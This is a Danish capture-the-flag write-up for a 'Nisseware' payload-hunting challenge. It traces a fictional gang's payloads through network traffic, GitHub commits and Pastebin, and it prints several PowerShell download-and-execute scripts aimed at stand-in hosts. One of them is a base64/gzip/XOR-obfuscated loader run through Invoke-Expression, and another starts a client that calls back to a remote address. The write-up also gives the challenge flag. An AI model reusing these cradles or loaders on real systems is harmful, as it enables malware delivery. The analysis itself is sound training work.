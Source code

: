 # Writeup

Opgaveteksten beder os om at vurdere, hvor selve payloadet i angrebet er hentet fra, og om vi kan finde andre payloads.

Har man løst [Nisseware: Phishing](../nisseware-phishing/), har man sandsynligvis fundet det relevante link nu, men opgaven er lavet, så den kan løses separat med et kig på netværkstrafikken.

Åbnes `network_logs.pcapng` ses som noget af det første en stream af HTTP-trafik:

![Screenshot af HTTP trafik](img/http.png)

Her ses, at der er lavet et `GET`-request mod http://raw.githubusercontent.com/N1ss3b4nd3n/N1ss3b4nd3n/main/README.md - har man løst phishingopgaven, vil man tydeligt kunne genkende dette som den URL, payloadet hentes ned fra, før det eksekveres. Vi er her heldige, at `N1ss3b4nd3n` er kommet til at bruge `HTTP` og ikke `HTTPS` - dvs. vi kan se den fulde URL og får blot et `301 - Moved Permanently` svar fra `GitHub`, der automatisk redirecter til `HTTPS`-udgaven, hvorefter den fulde sti og indholdet af requests og responses er krypteret.

Tilgår vi linket, ser vi, at det bare er en rå tekstfil, der indeholder linket https://pastebin.com/raw/GdyerNX8, hvor følgende script er hosted:

```ps1
$fileUrl = "http://det.jul.det.cool/not_sus.ps1"
(New-Object System.Net.WebClient).DownloadFile($fileUrl, (Get-Location).Path + "\payload.ps1")
Start-Process (Get-Location).Path + "\payload.ps1"
```

Hmm, http://det.jul.det.cool/not_sus.ps1 virker ikke som en helt gyldig URL - men det er et godt spor!
Fjerner vi `/raw` fra URLen, kan vi tilgå scriptet direkte på pastebin siden: https://pastebin.com/GdyerNX8.

![Nissebandens payload på pastebin](img/pastebin.png)

Her ses at payloadet står som unlisted og er oprettet af brugeren `N1ss3b4nd3n` - det kunne da være interessant at se, hvad de ellers har af pastes: https://pastebin.com/u/N1ss3b4nd3n.

![Nissebandens offentlige pastes](img/pastebin-public.png)

Der ligger faktisk kun en enkelt public paste: https://pastebin.com/hQcmjWHL. Den ser dog rigtig interessant ud:

```
Medlemsliste:
HEMMELIGT (chefen)
Lun73
G3mys3
HrM0rt3ns3n
Sk1pp3r
P1l
```

Det virker som et rigtig godt spor at lave OSINT på, og efter denne opgave kan man naturligt fortsætte med [Nisseware: OSINT](../nisseware-osint/).
Men inden da skal vi stadig løse den stillede opgave: At finde deres payloadmekanisme og lede efter andre payloads.

Vi har adgang til en fil fra et `GitHub` repo - måske vi kan tilgå gruppens `GitHub` direkte!
Vi prøver at gå til https://github.com/N1ss3b4nd3n og ser, vi fint kan se deres profil:

![Nissebandens GitHub](img/nissebandens-github.png)

Der er umiddelbart kun et enkelt synligt repository, nemlig det, der hostede payloadlinket: https://github.com/N1ss3b4nd3n/N1ss3b4nd3n
Her ser vi dog, der står `10 Commits`, så det virker relevant at tage et kig på:

![Screenshot af GitHub commit history](img/commits.png)

Vi tjekker ændringen i dem alle og ser, at det er en lang række links, bl.a. flere til pastebin og en række sketchy hostnames:

```
https://pastebin.com/raw/P6cUKLkV
https://pastebin.com/raw/pNeMxgSM
https://pastebin.com/raw/MbP0cAfn
https://pastebin.com/raw/CiZTV3BA
https://danger-site.hacker/mal.ps1
https://pastebin.com/raw/xNkVzDGn
https://nothing-suspicious-here.jul/script.ps1
https://pastebin.com/raw/GXvNcLqw
https://pastebin.com/raw/GdyerNX8
```

Noget tyder altså på, at `N1ss3b4nd3n` hoster deres payloads rundt omkring, bl.a. på pastebin, og opdaterer dette repo, hver gang, de vil pege på et nyt script i stedet, så de på den måde kan holde URLen hardcoded i deres phishingangreb. Så må man selv vurdere, hvor gennemtænkt det er at anvende et versionsstyringsværktøj med commit history.

De første to pastebin sider er nede igen, så der har gruppen nok fjernet deres payload, eller det kan være blevet flagged og fjernet af pastebin selv.
De to non-pastebin URLs kan heller ikke tilgås. Det efterlader os med fem scripts, der bør kigges igennem, og vi ser på dem i rækkefølge:

```ps1
$fileUrl = "http://134.34.f4k3.1337/download.exe"
$client = New-Object System.Net.WebClient
$client.DownloadFile($fileUrl, (Get-Location).Path + "\download.exe")
Start-Process (Get-Location).Path + "\download.exe"
```

Det første script downloader tilsyneladende en `exe`-fil fra et malicious site, gemmer det lokalt på maskinen og eksekverer det.
URLen kan dog ikke tilgås, og vi kigger videre på næste script:

```ps1
[Byte[]]$AssemblyBytes = [System.Text.Encoding]::UTF8.GetBytes("H4sIABsdUmUA/y3Oa0uzUAAAYC1ZRRDhC0u87OLqaE6RM8YEx8KgKas+7OZxc14m1lbx6srID8PVXx9Bv+B53q5cFf4zPPIsjRZarXNc5bAi47LVF4tKs11y8L7+4Hxn2tRsHkgLZ+ryCerCpRnOUe17h617aOAdNTJDPO2UBsHhVvj/ecmX7vDbH2V6kz+WJ4HbVKz4dVXY/QpenwOtRcYPhg6ChG6YlWckY6EERVMvD3kJKbWXPOz7vDwWSDWw6QtRCgHeDliSOQFWSl2PRqZbV+iEEMwZSaXRRuhCz/PH0u/qidEjS4VWSrT9iWP0YoaArWrhD1XNlfUNu5xYIKbinEZ/xrZxb5/vASPNHMIDAQAA")

# Base64 decode bytes
$decodedBytes = [System.Convert]::FromBase64String([System.Text.Encoding]::UTF8.GetString($AssemblyBytes))
$stream = New-Object System.IO.MemoryStream(,$decodedBytes)
$gzip = New-Object System.IO.Compression.GzipStream($stream, [System.IO.Compression.CompressionMode]::Decompress)

# Gzip decompress
$buffer = New-Object byte[](1024)
$ms = New-Object System.IO.MemoryStream
while($true) {
    $read = $gzip.Read($buffer, 0, 1024)
    if ($read -le 0) { break }
    $ms.Write($buffer, 0, $read)
}
$script = $ms.ToArray()
$ms.Close()
$gzip.Close()
$stream.Close()

# XOR decode
$key = [System.Text.Encoding]::UTF8.GetBytes("NC3CTF2023")
for ($i = 0; $i -lt $script.Length; $i++) {
    $script[$i] = $script[$i] -bxor $key[$i % $key.Length]
}

# Invoke result as PS script
Invoke-Expression -Command ([System.Text.Encoding]::UTF8.GetString($script))
```

Dette ser noget mere interessant ud! Vi har umiddelbart en base64 encoded streng, der decodes og herefter dekomprimeres med `gzip`.
Resultatet XOR-dekrypteres med nøglen `"NC3CTF2023"`, og sidst eksekveres det som en kommando.

Vi kan køre de samme commands i PowerShell og udskifte `Invoke-Expression` med `Write-Host` for at printe kommandoen i stedet for at eksekvere den. Alternativt kan [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)Gunzip()XOR(%7B'option':'UTF8','string':'NC3CTF2023'%7D,'Standard',false)) anvendes med lidt større sikkerhed. Her skal blot bruges `From Base64`, `Gunzip` og sidst `XOR` med `Key` sat til `NC3CTF2023` i `UTF8` mode. Resultatet bliver uanset metoden følgende script:

```ps1
$fileUrl = "http://321.123.f4k3.1337/megetfarligfil.exe&token=NC3{dyn4m1sk_p4yl04d_0pd4t3r1ng}"
$client = New-Object System.Net.WebClient
$client.DownloadFile($fileUrl, (Get-Location).Path + "\download.exe")
Start-Process (Get-Location).Path + "\download.exe"
```

Altså igen et lignende payload, der henter en executable fra en URL og eksekverer den.
Mest interessant er selvfølgelig den URL-parameter, der er sat til flaget: `token=NC3{dyn4m1sk_p4yl04d_0pd4t3r1ng}`.

Sådan! Endnu en opgave klaret! Men vi bør lige færdiggøre analysen og kigge de resterende tre scripts igennem:

```ps1
(New-Object System.Net.WebClient).DownloadFile("https://888.0.24.12/script.bat", (Get-Location).Path + "\download.bat")
Invoke-Item (Get-Location).Path + "\download.bat"
```

Script tre er ikke umiddelbart interessant, der hentes og eksekveres en `bat`-fil fra en utilgængelig URL.
Det allersidste script er det, vi allerede så, da vi først fandt linket i phishingopgaven eller netværkstrafikken, men det næstsidste er nyt:

```ps1
(New-Object System.Net.WebClient).DownloadFile("http://julebal-i-nisseland.jul/client.exe", (Get-Location).Path + "\client.exe")
$path = ((Get-Location).Path + "\client.exe")
$args = "-addr", "n1ss3b4nd3n.jul:8080"
Invoke-Expression "$path $args"
```

Dette script henter filen `client.exe` og eksekverer følgende kommando:

```console
client.exe -addr n1ss3b4nd3n.jul:8080
```

Potentielt mere interessant end de foregående, men vi kan ikke tilgå nogle af de URLs.
Er man lidt opmærksom, vil man dog kunne se i commit history, at dette script var aktivt fra `23. november 12:10` til `28. november 08:18`, og fra netværkstrafikken ses, at linket blev tilgået `28. november 02:34` - det er altså specifikt dette payload, der blev hentet ned på Alfs computer og eksekveret.

Dette er interessant for næste opgave og den info vil være en stor hjælp til [Nisseware: Exfiltration](../nisseware-exfiltration/).

Vi har altså nu flere spor at gå efter og kan fortsætte i mindst to retninger:

- Pastebin medlemsliste: [Nisseware: OSINT](../nisseware-osint/)
- Faktisk eksekveret payload: [Nisseware: Exfiltration](../nisseware-exfiltration/)

**Flag**

`NC3{dyn4m1sk_p4yl04d_0pd4t3r1ng}`

